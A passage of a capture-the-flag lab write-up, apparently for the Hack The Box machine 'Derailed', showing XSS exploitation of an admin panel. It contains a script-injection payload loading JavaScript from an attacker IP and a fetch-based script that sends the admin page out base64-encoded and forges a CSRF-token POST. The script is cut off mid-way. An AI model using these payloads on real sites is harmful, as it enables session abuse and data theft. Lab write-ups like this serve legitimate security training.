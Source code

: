 ```python
```
At this point we can exfiltrate data as admin, more specifically the `/administration` endpoint.
We can include an hosted JavaScript file like this:
```javascript
var x=document.createElement("script");x.src="http://10.10.14.20:9090/plzwork.js";document.body.appendChild(x);
```
In that file I'll put the exfil script [in this repo](https://github.com/hoodoer/XSS-Data-Exfil). (modify endpoint and IP).

After exfiltrating the webpage at `/administration` we see:
```html
<div class="container">

    <h3>Reports</h3>


      <form method="post" action="/administration/reports">

        <input type="hidden" name="authenticity_token" id="authenticity_token" value="Rfp_q_01P-J2glMtVC4c0fGl5oD_REW1uw6eIBFoiGKhi-iwHDGiejN108CSaQCExxwR2vyPCDkgvkVOekJrkA" autocomplete="off" />

        <input type="text" class="form-control" name="report_log" value="report_08_07_2023.log" hidden>

        <label class="pt-4"> 08.07.2023</label>

        <button name="button" type="submit">
          <i class="fas fa-download me-2"></i>
          Download
        </button>


      </form>

```

# User
We've to submit the post request via XSS in order to read that log file, here's a simple javascript that does so:
```javascript
const MY_URI = "http://10.10.14.20:9090";
const ADMIN_URI = "http://derailed.htb:3000/administration";
fetch(ADMIN_URI)
  .then(response => response.text())
  .then(body => {
    fetch(MY_URI + "/?data=" + btoa(body));

    var parser = new DOMParser();
    var doc = parser.parseFromString(body, "text/html");
    var authenticity_token = doc.getElementById("authenticity_token").value;

    var report_form = {
        "authenticity_token": authenticity_token,
        "report_log": "report_08_07_2023.log",
        "button": ""
    };

    return fetch(ADMIN_URI + "/reports", {
        method: 'POST',
        headers: {
          'Content-Type': 'application/x-www-form-urlencoded'
        },
```
